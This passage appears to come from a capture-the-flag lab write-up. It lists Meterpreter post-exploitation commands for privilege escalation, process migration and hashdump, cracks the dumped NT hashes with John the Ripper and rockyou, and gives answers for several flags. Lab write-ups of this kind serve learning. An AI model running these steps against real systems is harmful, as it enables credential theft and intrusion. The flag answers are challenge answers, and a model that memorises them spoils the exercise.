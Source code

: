 > sessions -l

> sessions -i 1

>  verify we have the authority system:


> getsystem  (on meterpreter)

> shell

>whoami (output: NT Authority sys.)

> exit (and return to meterpreter)

> ps (see process running in authority)

> migrate 3078 (if says "access denied" when running the command then, you're still good to go.)

> hashdump (on meterpreter)

 create file hash.txt and put the John hash and save the file, create it: 
 (on another terminal)

> vim hash.txt -> put hashes founded.

crack:

> john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt


Return on meterpreter:
# Task 5: Find flags!

## Flag1? _This flag can be found at the system root._

![](https://miro.medium.com/v2/resize:fit:530/1*deB5JrdNvbmSuTyssTw95w.png)

> Answer: flag{access_the_machine}

## Flag2? _his flag can be found at the location where passwords are stored within Windows._

search -f flag2.txt

![](https://miro.medium.com/v2/resize:fit:875/1*4M646IrNaZMweqs_cY1kpQ.png)

![](https://miro.medium.com/v2/resize:fit:689/1*OMZ4retjt5SJA8Pf66TYMw.png)

> Answer: flag{sam_database_elevated_access}

## flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._

![](https://miro.medium.com/v2/resize:fit:875/1*l9LOYKZbYw7MqH8H6-yQsQ.png)
